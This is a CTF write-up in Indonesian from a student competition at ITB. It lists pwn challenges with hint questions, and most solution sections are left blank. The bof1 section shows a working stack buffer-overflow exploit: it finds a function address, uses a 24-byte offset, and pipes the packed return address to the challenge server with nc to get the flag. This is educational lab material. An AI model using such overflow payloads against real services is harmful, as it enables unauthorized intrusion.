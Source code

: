 # ctf hehe Write Up
ctf ini diadakan oleh mahasiswa ITB 18 untuk mengenalkan CTF pada mahasiswa ITB 19, juga untuk melatih dan mempersiapkan mahasiswa demi membuat ITB lebih maju lagi #MakeITBGreatAgain

# Pwn

## Penjara Ular 1

**Challenge**
nc 13.228.30.172 10009

How do you get the value of secret?
Is python2's input() function safe?

**Solution**


## Penjara Ular 2

**Challenge**
nc 13.228.30.172 10008

The program will not give you the flag, you must escape the program!
How do you exit the program to control the system?
Is python2's input() function safe?

**Solution**


## sukses

**Challenge** 
nc 13.228.30.172 10006

What is the difference between signed and unsigned integers?
What is integer overflow?

**Solution**


## bof0

**Challenge**
nc 13.228.30.172 10001

What is a buffer overflow vulnerability?
Is gets() function safe?
How much space is allocated for your input, what about the variable it is being compared to?

**Solution**


## bof1

**Challenge**
nc 13.228.30.172 10002

What is a buffer overflow vulnerability?
Is gets() function safe?
How much space is allocated for your input?
Try examining it on gdb/IDA
What is a stack frame?
What is a function's return address?
How does the program know which function to call next, can you control the program flow?

**Solution**
Dilakukan reversing pada file yang diberikan ('bof1') dengan menggunakan perintah 'readElf -a'. Setelah melihat-lihat terdapat sebuah fungsi dengan nama yang menarik, yaitu 'readFlag' yang terletak pada address 0x04006d7. Sekarang yang perlu kita hanya perlu melakukan buffer overflow pada program dan 'loncat' ke address readFlag tersebut. Buffer Overflow dapat dilakukan dengan memasukkan input yang banyak sehingga program menjadi error. Dengan menggunakan code python di terminal
> python -c "print 'a'*3" | ./bof1

>python -c "print 'a'*24" | ./bof1

Setelah dicoba-coba ditemukan bahwa program mengalami buffer overflow ketika diberi 24 karakter a, sekarang yang perlu dilakukan adalah mengubah bentuk address dengan menggunakan pwntools yang dijalankan di python
> import pwn
> pwn.p32(0x04006d7)

didapatkan '\xd7\x06@\x00' setelah itu langsung saja digunakan kepada server dengan memasukkan perintah berikut pada terminal
> python -c "print 'a'*24+'\xd7\x06@\x00'" | nc 13.228.30.172 10002

didapatkan output berupa

> hi! change the string to >w< and we'll see what happens!
your input: string is: aaaaaaaaaaaaaaaa�@
not yet :(
keep trying!
CTF{ch4ng3_th3_progr4m_fl0o0w}aaaaaaaaaap�e



## machina

**Challenge**
nc 13.228.30.172 10005

The program will not give you the flag, you must control the system to get the flag!
What is a shellcode?
How can you craft a shellcode that will give you the shell/system?

**Solution**


# Web Exploitation

## 

**Challenge**


**Solution**
